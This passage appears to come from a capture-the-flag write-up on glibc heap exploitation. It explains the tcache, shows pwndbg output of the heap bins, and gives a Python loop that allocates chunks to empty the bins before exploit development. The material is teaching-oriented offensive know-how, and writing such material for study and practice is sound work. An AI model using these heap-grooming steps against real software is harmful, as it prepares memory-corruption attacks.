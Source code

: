 From here, we need to talk about what we actually have been interacting with. The tcache is an array of linked lists which store freed chunks on a per-thread basis. The linked lists are indexed in order, and correspond to chunks of size 16-1032 bytes, increments of 16 bytes. This is a speedup in practice, as there is necessary thread safety operations when trying to alloc in general, since heap is shared among threads, where as this is a custom cache for each thread of your program. The big thing comes from the fact that they are terribly exploitable.

However, seccomp alloc'd and freed a lot of memory prior, so when debugging with pwndbg, I can check the bins with `bins` or their specific names `tcachebins`, `fastbins`, etc. And I noticed that there was a lot of mess before I wanted to start actual exploit development:

```c
tcachebins
0x20 [  7]: 0x560865ea1fd0 —▸ 0x560865ea2280 —▸ 0x560865ea1750 —▸ 0x560865ea1e30 —▸ 0x560865ea1c90 —▸ 0x560865ea1af0 —▸
 0x560865ea16c0 ◂— 0x0
0x70 [  7]: 0x560865ea1990 —▸ 0x560865ea1b30 —▸ 0x560865ea1cd0 —▸ 0x560865ea1e70 —▸ 0x560865ea2010 —▸ 0x560865ea2190 —▸
 0x560865ea16e0 ◂— 0x0
0x80 [  7]: 0x560865ea18f0 —▸ 0x560865ea1a70 —▸ 0x560865ea1c10 —▸ 0x560865ea1db0 —▸ 0x560865ea1f50 —▸ 0x560865ea2200 —▸
 0x560865ea1640 ◂— 0x0
0x90 [  4]: 0x560865ea1530 —▸ 0x560865ea14a0 —▸ 0x560865ea1800 —▸ 0x560865ea1770 ◂— 0x0
0xd0 [  5]: 0x560865ea1170 —▸ 0x560865ea0e40 —▸ 0x560865ea0b10 —▸ 0x560865ea07e0 —▸ 0x560865ea0350 ◂— 0x0
0xf0 [  2]: 0x560865ea2080 —▸ 0x560865ea1370 ◂— 0x0
fastbins
...
unsortedbin
all: 0x560865ea15b0 —▸ 0x7f8ff5a19ce0 (main_arena+96) ◂— 0x560865ea15b0
smallbins
0x20: 0x560865ea2160 —▸ 0x560865ea1fe0 —▸ 0x560865ea1e40 —▸ 0x560865ea1ca0 —▸ 0x560865ea1b00 ◂— ...
0x60: 0x560865ea1880 —▸ 0x7f8ff5a19d30 (main_arena+176) ◂— 0x560865ea1880
0x70: 0x560865ea19f0 —▸ 0x560865ea1b90 —▸ 0x560865ea1d30 —▸ 0x560865ea1ed0 —▸ 0x7f8ff5a19d40 (main_arena+192) ◂— ...
```

To remedy this, I just made a bunch of allocs (and leaked memory), until all of the bins were empty (yes, 16 is there twice, dont worry about it):

```py
print("Cleaning tcaches + smallbins")
for i in range(7):
    alloc(15, 16, 'A')
for i in range(7):
    alloc(15, 0x60, 'A')
for i in range(7):
    alloc(15, 0x70, 'A')
for i in range(4):
    alloc(15, 0x80, 'A')
for i in range(5):
    alloc(15, 0xc0, 'A')
for i in range(2):
    alloc(15, 0xe0, 'A')
for i in range(11):
    alloc(15, 0x20, 'A')
for i in range(7):
    alloc(15, 0x10, 'A')
alloc(15, 0x30, 'A')
```
